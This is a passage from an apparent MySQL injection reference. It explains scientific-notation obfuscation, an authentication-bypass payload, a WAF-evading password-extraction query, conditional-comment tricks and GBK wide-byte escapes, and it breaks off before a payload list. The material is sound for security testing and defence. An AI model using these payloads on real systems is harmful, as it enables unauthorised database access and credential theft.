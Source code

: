 For example:

* `1e3` represents `1 x 10^3` which is `1000`. 
* `1.5e3` represents `1.5 x 10^3` which is `1500`. 
* `2e-3` represents `2 x 10^-3` which is `0.002`. 

The following queries are equivalent:

* `SELECT table_name FROM information_schema 1.e.tables` 
* `SELECT table_name FROM information_schema .tables` 

In the same way, the common payload to bypass authentication `' or ''='` is equivalent to `' or 1.e('')='` and `1' or 1.e(1) or '1'='1`. 
This technique can be used to obfuscate queries to bypass WAF, for example: `1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2` 


### Conditional Comments

MySQL conditional comments are enclosed within `/*! ... */` and can include a version number to specify the minimum version of MySQL that should execute the contained code.
The code inside this comment will be executed only if the MySQL version is greater than or equal to the number immediately following the `/*!`. If the MySQL version is less than the specified number, the code inside the comment will be ignored. 

* `/*!12345UNION*/`: This means that the word UNION will be executed as part of the SQL statement if the MySQL version is 12.345 or higher.
* `/*!31337SELECT*/`: Similarly, the word SELECT will be executed if the MySQL version is 31.337 or higher.

**Examples**: `/*!12345UNION*/`, `/*!31337SELECT*/`


### Wide Byte Injection (GBK)

Wide byte injection is a specific type of SQL injection attack that targets applications using multi-byte character sets, like GBK or SJIS. The term "wide byte" refers to character encodings where one character can be represented by more than one byte. This type of injection is particularly relevant when the application and the database interpret multi-byte sequences differently.

The `SET NAMES gbk` query can be exploited in a charset-based SQL injection attack. When the character set is set to GBK, certain multibyte characters can be used to bypass the escaping mechanism and inject malicious SQL code.

Several characters can be used to triger the injection.

* `%bf%27`: This is a URL-encoded representation of the byte sequence `0xbf27`. In the GBK character set, `0xbf27` decodes to a valid multibyte character followed by a single quote ('). When MySQL encounters this sequence, it interprets it as a single valid GBK character followed by a single quote, effectively ending the string.
* `%bf%5c`: Represents the byte sequence `0xbf5c`. In GBK, this decodes to a valid multi-byte character followed by a backslash (`\`). This can be used to escape the next character in the sequence.
* `%a1%27`: Represents the byte sequence `0xa127`. In GBK, this decodes to a valid multi-byte character followed by a single quote (`'`).

A lot of payloads can be created such as:
